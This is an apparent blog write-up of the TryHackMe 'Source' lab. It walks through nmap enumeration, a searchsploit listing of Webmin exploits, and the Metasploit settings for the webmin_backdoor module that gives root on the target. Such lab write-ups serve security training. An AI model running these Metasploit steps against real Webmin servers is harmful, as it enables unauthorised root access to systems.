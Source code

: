 ```yaml
---
title: "TryHackMe - Source"
author: Nasrallah
description: ""
date: 2022-09-29 00:00:00 +0000
categories : [TryHackMe]
tags: [tryhackme, linux, easy, rce, webmin]
img_path: /assets/img/tryhackme/source
---
```


<div align="center"> <script src="https://tryhackme.com/badge/367641"></script> </div>

---


# **Description**

Hello hackers, I hope you are doing well. We are doing [Source](https://tryhackme.com/room/source) from [TryHackMe](https://tryhackme.com). The machine is running a vulnerable version of webmin giving us root access to the target.

# **Enumeration**

## nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```terminal
Nmap scan report for 10.10.102.63
Host is up (0.094s latency).
Not shown: 998 closed tcp ports (reset)
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b7:4c:d0:bd:e2:7b:1b:15:72:27:64:56:29:15:ea:23 (RSA)
|   256 b7:85:23:11:4f:44:fa:22:00:8e:40:77:5e:cf:28:7c (ECDSA)
|_  256 a9:fe:4b:82:bf:89:34:59:36:5b:ec:da:c2:d3:95:ce (ED25519)
10000/tcp open  http    MiniServ 1.890 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We have two open ports, 22(ssh) and 10000(webmin)

## Web

Let's navigate to the web page at port 10000.

![](1.png)

We are advised to use SSL, so let's add https to the url.

![](2.png)

We webmin login page. I tried some default credentials but no luck.

# **Foothold**

Let's check for exploits in webmin using `searchsploit`.

```terminal
$ searchsploit webmin   
--------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                             |  Path
--------------------------------------------------------------------------------------------------------------------------- ---------------------------------
DansGuardian Webmin Module 0.x - 'edit.cgi' Directory Traversal                                                            | cgi/webapps/23535.txt
phpMyWebmin 1.0 - 'target' Remote File Inclusion                                                                           | php/webapps/2462.txt
phpMyWebmin 1.0 - 'window.php' Remote File Inclusion                                                                       | php/webapps/2451.txt
Webmin - Brute Force / Command Execution                                                                                   | multiple/remote/705.pl
webmin 0.91 - Directory Traversal                                                                                          | cgi/remote/21183.txt
Webmin 0.9x / Usermin 0.9x/1.0 - Access Session ID Spoofing                                                                | linux/remote/22275.pl
Webmin 0.x - 'RPC' Privilege Escalation                                                                                    | linux/remote/21765.pl
Webmin 0.x - Code Input Validation                                                                                         | linux/local/21348.txt
Webmin 1.5 - Brute Force / Command Execution                                                                               | multiple/remote/746.pl
Webmin 1.5 - Web Brute Force (CGI)                                                                                         | multiple/remote/745.pl
Webmin 1.580 - '/file/show.cgi' Remote Command Execution (Metasploit)                                                      | unix/remote/21851.rb
Webmin 1.850 - Multiple Vulnerabilities                                                                                    | cgi/webapps/42989.txt
Webmin 1.900 - Remote Command Execution (Metasploit)                                                                       | cgi/remote/46201.rb
Webmin 1.910 - 'Package Updates' Remote Command Execution (Metasploit)                                                     | linux/remote/46984.rb
Webmin 1.920 - Remote Code Execution                                                                                       | linux/webapps/47293.sh
Webmin 1.920 - Unauthenticated Remote Code Execution (Metasploit)                                                          | linux/remote/47230.rb
Webmin 1.962 - 'Package Updates' Escape Bypass RCE (Metasploit)                                                            | linux/webapps/49318.rb
Webmin 1.973 - 'run.cgi' Cross-Site Request Forgery (CSRF)                                                                 | linux/webapps/50144.py
Webmin 1.973 - 'save_user.cgi' Cross-Site Request Forgery (CSRF)                                                           | linux/webapps/50126.py
Webmin 1.984 - Remote Code Execution (Authenticated)                                                                       | linux/webapps/50809.py
Webmin 1.996 - Remote Code Execution (RCE) (Authenticated)                                                                 | linux/webapps/50998.py
Webmin 1.x - HTML Email Command Execution                                                                                  | cgi/webapps/24574.txt
Webmin < 1.290 / Usermin < 1.220 - Arbitrary File Disclosure                                                               | multiple/remote/1997.php
Webmin < 1.290 / Usermin < 1.220 - Arbitrary File Disclosure                                                               | multiple/remote/2017.pl
Webmin < 1.920 - 'rpc.cgi' Remote Code Execution (Metasploit)                                                              | linux/webapps/47330.rb
--------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results

```

There are a lot of rce exploits, let's fire up metasploit and see what modules we can use.

```terminal
msf6 > search webmin                                                                                                                                         
                                                                              
Matching Modules                       
================                       
                                       
   #  Name                                           Disclosure Date  Rank       Check  Description
   -  ----                                           ---------------  ----       -----  -----------
   0  exploit/unix/webapp/webmin_show_cgi_exec       2012-09-06       excellent  Yes    Webmin /file/show.cgi Remote Command Execution
   1  auxiliary/admin/webmin/file_disclosure         2006-06-30       normal     No     Webmin File Disclosure
   2  exploit/linux/http/webmin_package_updates_rce  2022-07-26       excellent  Yes    Webmin Package Updates RCE
   3  exploit/linux/http/webmin_packageup_rce        2019-05-16       excellent  Yes    Webmin Package Updates Remote Command Execution
   4  exploit/unix/webapp/webmin_upload_exec         2019-01-17       excellent  Yes    Webmin Upload Authenticated RCE
   5  auxiliary/admin/webmin/edit_html_fileaccess    2012-09-06       normal     No     Webmin edit_html.cgi file Parameter Traversal Arbitrary File Access
   6  exploit/linux/http/webmin_backdoor             2019-08-10       excellent  Yes    Webmin password_change.cgi Backdoor

```

Let's use `exploit/linux/http/webmin_backdoor` module and set the following options:

```
use exploit/linux/http/webmin_backdoor

set rhost {target_IP}

set rport 10000

set lhost tun0

set ssl true
```

Now enter `exploit`.

![](3.png)

Great! We got access as root!

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).

---

# References
